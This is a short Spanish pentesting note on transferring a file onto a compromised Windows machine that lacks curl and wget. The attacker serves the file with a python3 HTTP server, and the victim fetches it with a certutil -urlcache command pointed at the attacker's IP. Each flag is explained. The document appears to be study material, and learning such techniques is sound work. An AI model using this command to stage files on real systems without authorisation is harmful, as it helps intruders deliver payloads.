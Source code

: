 En ocasiones podemos encontrarnos que la máquina que hemos vulnerado y la cual tenemos acceso no contiene ni el comando "$curl$" ni el comando "$wget$". Cuando nos encontremos con situaciones así podemos realizar el siguiente procedimiento.

Levantamos el servicio python3 en nuestra máquina kali atacante dentro del directorio con el archivo que queremos compartir.

````
python3 -m http.server 80
````

Una vez hecho esto únicamente tendremos que ir a la máquina víctima y ejecutar el siguiente comando.

````
certutil -split -urlcache -f http://<IP de la máquina atacante/nombre del archivo> <nombre del archivo que tendrá en la máquina actual> 
````

"Certutil" es una herramienta original de Windows que fue diseñada para manejar certificados pero permite descargar archivos de una URL. En el comando anterior se indica lo siguiente:

- `-split`: divide el archivo descargado en fragmentos (suele usarse si el archivo es grande o para evitar corrupción).
- `-urlcache`: indica que se accederá a un recurso remoto vía HTTP o HTTPS.
- `-f`: forzar la descarga, incluso si el archivo ya existe.
- `http://ip/archivo_origen`: la ruta al archivo que se va a descargar desde una máquina remota (puede ser una IP o dominio).
- `archivo_destino` : el nombre que tendrá el archivo una vez guardado localmente.

Una vez lanzado el comando podemos ver que automáticamente se descarga el archivo dentro del directorio en el que nos encontremos en Windows.